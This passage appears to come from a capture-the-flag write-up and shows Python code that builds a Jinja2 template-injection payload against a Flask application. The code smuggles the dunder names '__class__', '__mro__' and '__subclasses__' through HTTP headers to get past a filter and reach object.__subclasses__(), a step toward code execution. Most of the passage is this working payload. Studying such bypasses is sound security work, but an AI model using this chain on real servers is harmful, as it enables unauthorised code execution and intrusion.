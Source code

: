 which gives us the value of the `0` header: "amogus"

## __subclasses__

```py
pragma = "request.pragma"
getitem = "request.referrer"
headers = "request.mimetype"
request_headers = f"(request|attr({headers}))" # request.headers 
pragma_str = f"({pragma}|attr({getitem}))(0)" # HeaderSet(['0123456789']).__getitem__(0) = "0123456789"

zero  = f"({pragma_str}|attr({getitem}))(0)" #"0123456789".__getitem__(0) = "0"
one   = f"({pragma_str}|attr({getitem}))(1)" #"0123456789".__getitem__(1) = "1"
two   = f"({pragma_str}|attr({getitem}))(2)" #"0123456789".__getitem__(2) = "2"
three = f"({pragma_str}|attr({getitem}))(3)" #"0123456789".__getitem__(3) = "3"
four  = f"({pragma_str}|attr({getitem}))(4)" #"0123456789".__getitem__(4) = "4"
five  = f"({pragma_str}|attr({getitem}))(5)" #"0123456789".__getitem__(5) = "5"
six   = f"({pragma_str}|attr({getitem}))(6)" #"0123456789".__getitem__(6) = "6"
seven = f"({pragma_str}|attr({getitem}))(7)" #"0123456789".__getitem__(7) = "7"
eight = f"({pragma_str}|attr({getitem}))(8)" #"0123456789".__getitem__(8) = "8"
nine  = f"({pragma_str}|attr({getitem}))(9)" #"0123456789".__getitem__(9) = "9"

class_dunder = f"{request_headers}.get({zero})" # request.headers.get("0") = "__class__"
mro_dunder = f"{request_headers}.get({one})" # request.headers.get("1") = "__mro__"

mro_tuple = f"request|attr({class_dunder})|attr({mro_dunder})" # request.__class__.__mro__
# this is (<class 'flask.wrappers.Request'>, <class 'werkzeug.wrappers.request.Request'>, <class 'werkzeug.sansio.request.Request'>, <class 'object'>)

class_object = f"({mro_tuple}|attr({getitem}))(3)" # request.__class__.__mro__.__getitem__(3)

subclasses_dunder = f"{request_headers}.get({two})" # request.headers.get("2") = "__subclasses__"
subclasses = f"({class_object}|attr({subclasses_dunder}))()" # <class 'object'>.__subclasses__()

payload = "{{" + subclasses + "}}"

headers = {
    "Pragma": "0123456789",
    "Referer": "__getitem__",
    "Content-Type": "headers",
    "0": "__class__",
    "1": "__mro__",
    "2": "__subclasses__",
}
```

{% ccb lang:py wrapped:true scrollable:true %}